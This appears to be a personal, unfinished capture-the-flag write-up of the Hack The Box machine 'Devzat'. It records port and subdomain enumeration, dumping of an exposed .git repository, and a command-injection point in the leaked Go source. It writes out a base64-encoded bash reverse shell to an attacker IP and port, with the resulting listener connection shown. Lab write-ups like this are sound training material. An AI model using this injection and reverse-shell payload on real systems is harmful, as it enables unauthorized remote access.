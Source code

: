Name: Devzat
IP: 10.10.11.118
OS: Linux

##**Enumeration::**##
nmap::
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Go
| ssh-hostkey:
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data.
SF-Port8000-TCP:V=7.91%I=7%D=1/30%Time=61F72B44%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

dirb::
/assets, /images, /javascript, /server-status

http:
UN: patrick@devzat.htb
`ssh -l [username] devzat.htb -p 8000 `
+ w/ patrick:: Nickname reserved for local use, please choose a different one.
+ `id/ :: bad5f40e4a8de24f154becbbe6939ebaca4166aff3dd5b12e477a40a10193092`
+ id/ <user> Get a unique ID for a user (hashed IP)

nikto::
+ Server may leak inodes via ETags, header found with file /, inode: 197f, size: 5c570e80059d3, mtime: gzip
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3092: /LICENSE.txt: License file found may indicate something
  + Creative Commons Attribution 3.0 Unported

ffuf:: Nothing 
wfuzz::
`wfuzz -t 20 --hc 400,302 -H "HOST: FUZZ.devzat.htb" -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://devzat.htb`::
+ http://pets.devzat.htb 
`wfuzz --sc 400,301 -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://pets.devzat.htb/FUZZ`::
+ /css, /build, /.git see ![wfuzz_pets_](Screenshots/devzat_pets_fuzz.png)
  + [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/git)
    + view changes with git diff

##**git-dumper::**## see ![git-dumper](Screenshots/git-dumper.png)
`
mkdir -p /tmp/devzat && chmod 777 /tmp/devzat
./git_dumper.py http://pets.devzat.htb/.git /tmp/devzat/
`
 cat main.go::
cmd := exec.Command("sh", "-c", "characteristics/"+species)
    + revshell injection:
burpsuite:: http//pets.devzat.htb
+ nc shell doesnt work
`echo -n 'bash -i >& /dev/tcp/10.10.16.13/5555' |base64::YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMy81NTU1 ` 
+ burp request:: 
`broken shell:: TODO:: stablize` see ![broken_shell](Screenshots/devzat_base64_revshell.png)

TODO:
connect to [10.10.16.13] from (UNKNOWN) [10.10.11.118] 46228
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell



Font Awesome Free 5.9.0 by @fontawesome - https://fontawesome.com
html5up.net 

##**References::**##
[git-dumper](https://github.com/arthaud/git-dumper)

